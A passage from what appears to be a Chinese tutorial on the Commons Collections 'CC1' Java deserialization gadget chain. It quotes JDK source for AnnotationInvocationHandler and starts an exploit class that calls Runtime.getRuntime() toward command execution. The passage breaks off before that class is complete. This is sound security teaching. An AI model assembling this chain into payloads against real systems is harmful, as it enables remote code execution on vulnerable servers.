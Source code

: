 #### 前半条链：

[![](assets/1701612311-f1d1cd958db1cb66739e7449cfcec80c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235051-e0a859a0-20cb-1.png)

然后我们需要找到一个能够遍历`map`的方法，且能把`transformedmap`传进去，最好就是能够找到某个类的`readObject`里面遍历map时调用了`setValue`：

然后结果我们就找到了：

[![](assets/1701612311-878101355d476576357c01285089ed56.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235056-e3cf64ca-20cb-1.png)

这里恰好是一个Map.Entry的形式，然后在遍历map以后使用了setValue：

```plain
for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
```

那我们就重点来关注这个`AnnotationlnvocationHandler`类中我们有什么可控的点，在他的构造函数中我们可以发现，`Map`我们完全可控，那我们就可以将前面的`transformedmap`构造进去：

但是这里注意一点，这里没有表明`public`类，所以我们只能通过反射来进行获取：

```plain
package sun.reflect.annotation;
class AnnotationInvocationHandler implements InvocationHandler, Serializable {
    private static final long serialVersionUID = 6182022883658399397L;
    private final Class<? extends Annotation> type;
    private final Map<String, Object> memberValues;

    AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
        Class<?>[] superInterfaces = type.getInterfaces();
        if (!type.isAnnotation() ||
            superInterfaces.length != 1 ||
            superInterfaces[0] != java.lang.annotation.Annotation.class)
            throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
        this.type = type;
        this.memberValues = memberValues;
    }
```

```plain
package exp;

import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC1Test {
    public static void main(String[] args) throws Exception{
        //Runtime.getRuntime().exec("calc");命令执行对应的命令；
        Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象
```